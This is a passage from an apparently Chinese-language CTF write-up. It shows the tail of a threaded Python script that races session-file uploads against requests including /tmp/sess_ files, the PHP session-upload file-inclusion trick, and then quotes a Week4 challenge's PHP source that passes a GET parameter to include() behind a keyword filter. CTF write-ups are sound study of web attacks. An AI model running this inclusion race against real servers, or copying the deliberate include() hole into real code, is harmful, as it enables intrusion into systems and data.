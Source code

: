 ```python
        res = requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )
        print('upload',res.text)



def write():
    while True:
        response = requests.get(
            f'{target}?QAQ=/tmp/sess_{flag}',
        )
        print('write',response.text)
        if 'phpinfo' in response.text:
            print('success')

for i in range(10):
    t1 = threading.Thread(target=upload)
    t2 = threading.Thread(target=write)
    t1.start()
    t2.start()
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201135601.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201136614.png)

flag 在 /var 目录下

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210201137228.png)

## Week4

### unf1ni3hed_web3he1

题目前面有点谜语人了...

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251810968.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210251810011.png)

给的 hint 提示要访问 `/t00llll.php` ...

```php
<?php
error_reporting(0);

if (!isset($_GET['include_'])) {
    echo "使用工具的时候,要轻一点哦~";
    show_source(__FILE__);
}else{
    $include_ = $_GET['include_'];
}
if (preg_match('/sess|tmp/i', $include_)) {
    die("可恶涅,同样的方法怎么可能骗到本小姐两次!");
}else if (preg_match('/sess|tmp|index|\~|\@|flag|g|\%|\^|\&|data|log/i', $include_)) {
    die("呜呜呜,不可以包含这些奇奇怪怪的东西欸!!");
}
else @include($include_);

```
